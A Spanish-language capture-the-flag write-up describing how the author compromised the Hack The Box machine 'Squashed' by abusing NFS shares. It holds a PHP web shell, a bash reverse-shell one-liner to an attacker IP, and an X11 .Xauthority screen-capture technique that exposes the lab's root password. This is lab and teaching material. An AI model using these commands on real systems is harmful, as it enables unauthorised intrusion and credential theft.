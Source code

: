 ```yaml
---
title: Squashed - Hack The Box
description: >-
  En esta máquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario.
author: Mariano Alfonso
date: 2023-04-18
categories: [HackTheBox, Easy, CFTs]
tags: [Privilege Escalation, Pentesting, Linux, NFS mount]
image:
  path: /assets/img/HTB/writeup-squashed/Squashed.png
  alt: Máquina Squashed de la Plataforma Hack The Box.
---
```


---

## Introducción 📄
El presente Write Up explica los pasos para resolver la máquina  <span style="color:green"> **Squashed** </span> de la plataforma [HackTheBox](https://hackthebox.com).

## Reconocimiento de Puertos 🔍

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.

![](/assets/img/HTB/writeup-squashed/TrazaICMP.png) _**Figure 1**: Traza ICMP._

En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una máquina <span style="color:green"> Linux</span>.

<div style="display: flex; justify-content: center; width: 100%;">
  <table style="width: 100%; table-layout: fixed;">
    <caption style="caption-side: bottom; text-align: center; color: white;">
      <span style="font-weight: bold; color: white;">Table 1</span>: Información sobre el TTL y Sistema Operativo.
    </caption>
    <tr>
      <th style="text-align: center;">TTL</th>
      <th style="text-align: center;">Sistema Operativo</th>
    </tr>
    <tr>
      <td style="text-align: center; word-wrap: break-word;">64</td>
      <td style="text-align: center; word-wrap: break-word;">Linux</td>
    </tr>
  </table>
</div>
 
Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.

```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/img/HTB/writeup-squashed/nmap1.png) _**Figure 2**: Primer Escaneo con Nmap._


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/img/HTB/writeup-squashed/nmap2.png) _**Figure 3**: Segundo Escaneo con Nmap._

## Puerto 2049 

Por lo que veo, obtengo esta información y me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)

```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/img/HTB/writeup-squashed/showmount.png) _**Figure 4**: Directorios Obtenidos._

Obtengo estos dos directorios:

<div style="display: flex; justify-content: center; width: 100%;">
  <table style="width: 100%; table-layout: fixed;">
    <caption style="caption-side: bottom; text-align: center; color: white;">
      <span style="font-weight: bold; color: white;">Table 2</span>: Rutas Obtenidas.
    </caption>
    <tr>
      <th style="text-align: center;" colspan="2">Rutas</th>
    </tr>
    <tr>
      <td style="text-align: center; word-wrap: break-word;">/home/ross</td>
      <td style="text-align: center; word-wrap: break-word;">/var/www/html</td>
    </tr>
  </table>
</div>

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto.

```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...

![](/assets/img/HTB/writeup-squashed/listadodedirectorios.png) _**Figure 5**: Listado de Directorios._

Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...

![](/assets/img/HTB/writeup-squashed/cdwebserver.png) _**Figure 6**: Directorio we_server_

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio.

![](/assets/img/HTB/writeup-squashed/usuarioquetieneprivilegio.png) _**Figure 7**: Usuario con bajos privilegios._

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina. 

![](/assets/img/HTB/writeup-squashed/directorioswebserver.png) _**Figure 8**: Listado del Directorio web_server_

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**.

```php
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
{: file='cmd.php'}

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL.

![](/assets/img/HTB/writeup-squashed/cmd=ls-l.png) _**Figure 9**: Ejecución de Comandos en la URL._

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)

```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/img/HTB/writeup-squashed/reverseshell.png) _**Figure 10**: Reverse Shell Obtenida._

Antes de continuar actualizo la tty. 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios .Xauthority ☣️

Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tengo acceso al archivo. 

![](/assets/img/HTB/writeup-squashed/usuarioquetieneprivilegio.png) _**Figure 11**: Usuario Sin Privilegios._

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)

No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario. 

```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```

![](/assets/img/HTB/writeup-squashed/Screenshotxwd.png) _**Figure 12**: Archivo Guardado en Formato .xwd_

Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**.

```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```

![](/assets/img/HTB/writeup-squashed/convert.png) _**Figure 13**: Convirtiendo Archivo .xwd a .png_

Abro el screenshot y listo ahi se ve la **password**.

![](/assets/img/HTB/writeup-squashed/screenshot.png) _**Figure 14**: Screenshot._

Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**.

![](/assets/img/HTB/writeup-squashed/rootalex.png) _**Figure 15**: Flag del User root._

Ya tenemos acceso a la <span style="color:red"> **Flag**.</span>
